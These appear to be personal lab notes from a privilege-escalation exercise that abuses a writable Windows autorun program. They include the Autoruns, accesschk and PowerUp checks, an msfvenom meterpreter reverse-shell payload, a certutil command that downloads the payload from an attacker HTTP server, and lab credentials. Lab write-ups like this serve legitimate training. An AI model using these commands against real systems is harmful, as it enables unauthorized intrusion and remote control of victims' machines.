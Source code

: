 - Find the autorun binary using `autorun64.exe` tool:
	- `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
	- In Autoruns, click on the `Logon` tab.
		- ![[Pasted image 20250416170445.png]]
- Use `accesschk.exe`to find access to the `My Program`executable:
	- `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
		- `-w`: Show only write access
		- `-v`: Verbose
		- `-u`: Suppress errors
	- ![[Pasted image 20250416170714.png]]
	- We are looking for **RW Everyone** (Read Write Everyone)

# Finding using `powerup`
---
- `powershell -ep bypass`
- `. .\PowerUp.ps1`=> **==Space Is Important here**==
- `Invoke-AllChecks`
	- ![[Pasted image 20250416171548.png]]

# Escalation via Autorun
---
==Note- In this machine, we should use common ports like `80`, `443` as this machine is old and maybe firewall is blocking uncommon ports.==
- Generate an executable:
	- `msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.158.181 lport=443 -f exe -o program.exe`
- Start listener on `msfconsole`port: 443
- Start python http server on port 80
- **Transfer the generated executable to the location of program** using internet explorer
	- Didn't work, using: `certutil` worked
	- `certutil.exe -urlcache -f http://10.8.98.106/program.exe program.exe`
- ![[Pasted image 20250416173258.png]]
- Disconnect or logout and reconnect as admin user:
	- `TCM : Hacker123`
- ![[Pasted image 20250417143750.png]]